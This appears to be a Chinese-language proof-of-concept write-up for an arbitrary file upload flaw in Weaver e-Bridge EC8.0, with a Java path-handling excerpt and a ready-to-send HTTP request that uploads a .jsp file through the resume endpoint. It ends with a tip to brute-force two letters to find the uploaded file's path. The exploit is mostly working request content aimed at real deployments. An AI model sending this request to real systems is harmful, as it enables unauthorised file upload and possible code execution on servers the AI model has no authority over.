


# 泛微-云桥e-Bridge EC8.0 任意文件上传


## ***tips：实战时候基本无法遍历到上传的文件路径，原因参考Bmth佬写的文章（此处为搬运）***

**后台的基础参数设置中**




**如果设置了云桥系统文件存放路径，那么在 initFilePath 的时候**

```java
public static String initFilePath(String prePath) {
    StringBuffer sb = new StringBuffer();
    if (GCONST.getFileRootPath() != null && !"".equals(GCONST.getFileRootPath())) {
        sb.append(GCONST.getFileRootPath());
    } else {
        sb.append(PathKit.getWebRootPath() + File.separator + "upload");
    }

    if (StrKit.notBlank(prePath)) {
        sb.append(File.separator + prePath + File.separator + sdf.format(new Date()));
    } else {
        sb.append(File.separator + sdf.format(new Date()));
    }

    sb.append(File.separator + getUpEng());
    return sb.toString();
}
```
**就会走入if条件内，文件路径为我们设置的存放路径，而默认推荐的路径为：**
```
C:\Users\bmth\Downloads\ebridge_install_win64_server2008R2_20200819\ebridge\file
```
**不在web目录下！！！**

## POC 1
```
POST /wxclient/app/recruit/resume/addResume?fileElementId=H HTTP/2
Host: XXX
Content-Length: 352
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryD5Mawpg068t7pbxZ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

------WebKitFormBoundaryD5Mawpg068t7pbxZ
Content-Disposition: form-data; name="file"; filename="1222.jsp"
Content-Type: application/octet-stream

127
------WebKitFormBoundaryD5Mawpg068t7pbxZ
Content-Disposition: form-data; name="file"; filename="1222.jsp"
Content-Type: application/octet-stream

127
------WebKitFormBoundaryD5Mawpg068t7pbxZ--
```

## 漏洞复现



***tips：上传到 /upload/202408/1-2位大写字母/1222.jsp（需要爆破两位字母）***